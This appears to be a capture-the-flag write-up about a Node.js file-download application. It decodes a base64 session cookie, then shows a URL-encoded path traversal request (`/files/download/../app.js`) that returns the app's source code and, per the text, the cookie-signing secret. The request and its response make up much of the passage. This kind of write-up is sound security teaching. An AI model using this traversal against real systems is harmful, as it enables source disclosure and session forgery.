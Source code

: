 # Inspecting Cookies
The `download_session` cookie contains JSON data which has been base64 encoded. It contains the value of the user in addition to the user id. There is also a `download_session.sig` cookie which appears to be using a secret key to sign the values of the cookie preventing a straight forward forgery.

#### Base64 encoded
```
download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOlsiWW91ciBmaWxlIHdhcyBzdWNjZXNzZnVsbHkgdXBsb2FkZWQuIl19LCJ1c2VyIjp7ImlkIjoxNiwidXNlcm5hbWUiOiJ0ZXN0dXNlciJ9fQ==
```

#### Base64 decoded
```json
{"flashes":{"info":[],"error":[],"success":["Your file was successfully uploaded."]},"user":{"id":16,"username":"testuser"}}
```

# LFI - Download Request
When downloading a private file it uses `/files/download/GUID` which is different than the previous download path. It was possible to pass a file name that has been URL encoded and the application would expose the contents of the named file. However it was limited to the subdirectories in which the application was running from. It was not possible to move up into the parent directories such as `/etc/passwd` for example.

This file disclosure vulnerability made it possible to download the source code for the NodeJS application and recover the secret key used to sign cookies. It also revealed exactly what the application imported such as `nunjucks` and `prisma client` . 

#### URL decoded
```
GET /files/download/../app.js HTTP/1.1
```

#### URL encoded (all characters)
```
GET /files/download/%2e%2e%2f%61%70%70%2e%6a%73 HTTP/1.1
```

#### Returned request
```node
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 12 Aug 2023 14:53:20 GMT
Content-Type: application/javascript; charset=UTF-8
Content-Length: 2168
Connection: close
X-Powered-By: Express
Content-Disposition: attachment; filename="Unknown"
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 21 Apr 2023 17:11:40 GMT
ETag: W/"878-187a4ccd572"

"use strict";
var __importDefault = (this && this.__importDefault) || function (mod) {
    return (mod && mod.__esModule) ? mod : { "default": mod };
};
Object.defineProperty(exports, "__esModule", { value: true });
const express_1 = __importDefault(require("express"));
const nunjucks_1 = __importDefault(require("nunjucks"));
const path_1 = __importDefault(require("path"));
const cookie_parser_1 = __importDefault(require("cookie-parser"));
const cookie_session_1 = __importDefault(require("cookie-session"));
```